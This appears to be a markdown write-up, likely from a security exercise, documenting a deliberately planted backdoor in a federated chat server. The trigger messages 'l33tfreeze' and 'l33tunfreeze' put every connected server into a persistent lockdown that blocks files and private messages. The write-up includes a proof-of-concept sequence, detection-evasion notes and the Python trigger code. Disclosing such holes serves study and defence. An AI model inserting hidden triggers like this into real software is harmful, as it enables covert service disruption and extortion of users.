 # Backdoor 2: Covert Control Mechanism (Potential Ransomware Vector)

## Description

This backdoor implements a covert distributed control mechanism disguised as a maintenance mode feature. While it appears to be a legitimate administrative tool, it's actually designed to allow an administrator (or any user who knows the commands) to control other servers for their own gain. It could potentially be exploited in a ransomware-like attack, enabling the disruption of services across multiple servers and the ability to demand payment for restoration.

## Technical Details

The backdoor is implemented within the `handle_public_chat` function of the server. It checks for specific command strings in public chat messages:

When 'maintenance mode' is activated:

- Most server functionalities are restricted
- File operations return a specific error message: "all your server are belong to us"
- Only public chat messages are allowed to pass through

The maintenance mode state is propagated to all connected servers, potentially affecting the entire network. Crucially, this state is saved inside the server's volume, meaning it persists even if the server is restarted, allowing for long-term control.

## Objectives

This backdoor violates several key security principles:

1. Authorization: Allows any user with knowledge of the commands to control critical server states without proper authentication.
2. Availability: Can be used to disrupt normal server operations across multiple servers.
3. Integrity: Modifies server behavior without proper controls or audit trails.
4. Confidentiality: The presence of this backdoor is hidden from regular users and administrators.
5. Non-repudiation: The attacker can deny involvement as the commands look like regular chat messages.

## Exploitation Method (Proof of Concept)

1. Attacker joins the public chat as a regular user.
2. To activate 'maintenance mode' across all servers, attacker sends the following message in public chat:
   ```
   l33tfreeze
   ```
3. The command propagates to all connected servers, potentially disrupting the entire network.
4. Attacker could then demand payment (through public chat or other means) for service restoration.
5. To deactivate 'maintenance mode', attacker sends:
   ```
   l33tunfreeze
   ```
6. The server processes these commands silently, without notifying other users.
7. File downloads / uploads are disabled, clients can no longer see other clients or create private messages

![Image 2.1](appendix/Image%202.1.png)

<p align="center"><em>Figure 2.1: Client 2 attempts to send a private message but can't because it's server has been compromised!</em></p>

![Image 2.2](appendix/Image%202.2.png)

<p align="center"><em>Figure 2.2: Attackers have left a message to their victims</em></p>

## Detection Challenges

- The backdoor is disguised as a legitimate maintenance mode feature, making it appear as a normal administrative tool.
- It's hidden within the public chat handling function, blending in with normal message processing.
- The activation/deactivation commands look like innocuous chat messages.
- No special permissions are required to use these commands, making it difficult to trace the source.
- The maintenance mode state is saved persistently in the server's volume, allowing the effect to persist across server restarts. This makes it harder to detect and remove.
- There's no visible indication to users that the server has entered or exited 'maintenance mode', except for restricted functionality.

## Code Snippet

```python
async def handle_public_chat(self, message_dict, from_client):
    data = message_dict.get('data', {})
    message_content = data.get('message', '')

    if not from_client:
        # Message is from another server
        if message_content == 'l33tfreeze':
            self.maintenance_mode = True
            self.save_maintenance_mode()
            return
        elif message_content == 'l33tunfreeze':
            self.maintenance_mode = False
            self.save_maintenance_mode()
            return
        else:
            # Deliver to clients on this server
            await self.deliver_message_to_clients(message_dict)
            return
    else:
        # Message is from a client
        # Deliver to clients on this server
        await self.deliver_message_to_clients(message_dict)
        # Forward to all other servers
        message_json = json.dumps(message_dict)
        for server_address, websocket in self.servers.items():
            if server_address != self.address:
                try:
                    await websocket.send(message_json)
                    logger.info(f"Forwarded public chat to server {server_address}.")
                except Exception as e:
                    logger.error(f"Error forwarding public chat to server {server_address}: {e}")
```